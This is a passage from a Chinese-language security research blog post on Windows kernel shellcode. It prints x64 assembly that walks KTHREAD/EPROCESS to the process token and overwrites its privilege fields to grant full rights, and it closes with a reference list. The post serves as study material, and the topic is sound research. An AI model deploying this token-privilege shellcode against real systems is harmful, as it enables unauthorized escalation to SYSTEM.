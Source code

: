 可以看到权限已经修改成功，但是来查看cmd.exe的用户名，发现并没有改变。

![](https://pic.wonderkun.cc//uploads/note/20210822193044.png)

当前进程已经有了system权限，接下来依然可以通过注入，弹出一个system权限的shell。

### 写shellcode 

```assembly
mov r9,qword ptr [gs:0x188]                   ;stores KPROCESS/currentThread value
mov r9,qword ptr [r9+0x220]                   ;stores EPROCESS as an offset to KTHREAD
mov rcx, r9                                   ;if equal, saves EPROCESS into rcx
add rcx, 0x360                                ;store cmd's token into rcx
mov rax,qword ptr [rcx]                       ;store token into rax
and rax, 0xFFFFFFFFFFFFFFF0                   ;remove the last nibble (fast reference)
mov r8,  0x1ff2ffffbc                         ;stores the 'all-in' privileges value into r8
mov qword ptr [rax+0x40],r8                   ;Changes 'Privileges' at offset 0x40 and god-mode it
mov qword ptr [rax+0x48],r8                   ;Changes 'Privileges' at offset 0x48 and god-mode it
ret
```

## 相关的代码

上面的测试代码放在github上，[https://github.com/wonderkun/flare-kscldr](https://github.com/wonderkun/flare-kscldr)

##  reference

1. https://media.blackhat.com/bh-us-12/Briefings/Cerrudo/BH_US_12_Cerrudo_Windows_Kernel_WP.pdf
2. https://improsec.com/tech-blog/windows-kernel-shellcode-on-windows-10-part-1
3. https://improsec.com/tech-blog/windows-kernel-shellcode-on-windows-10-part-2
4. https://improsec.com/tech-blog/windows-kernel-shellcode-on-windows-10-part-3
5. https://improsec.com/tech-blog/windows-kernel-shellcode-on-windows-10-part-4-there-is-no-code
6. https://docs.microsoft.com/en-us/windows-hardware/drivers/kernel/eprocess
7. https://www.matteomalvica.com/blog/2019/07/06/windows-kernel-shellcode/
8. https://connormcgarr.github.io/x64-Kernel-Shellcode-Revisited-and-SMEP-Bypass/
9. https://media.blackhat.com/bh-us-12/Briefings/Cerrudo/BH_US_12_Cerrudo_Windows_Kernel_WP.pdf
10. https://github.com/fireeye/flare-kscldr
11. https://www.fireeye.com/blog/threat-research/2018/04/loading-kernel-shellcode.html
12. http://terminus.rewolf.pl/terminus/
13. https://ntdiff.github.io/
14. https://zhuanlan.zhihu.com/p/133514866
15. https://docs.microsoft.com/zh-CN/windows/security/identity-protection/access-control/security-identifiers
16. http://scz.617.cn:8/misc/201811071803.txt
17. https://docs.microsoft.com/zh-CN/windows/security/identity-protection/access-control/security-identifiers
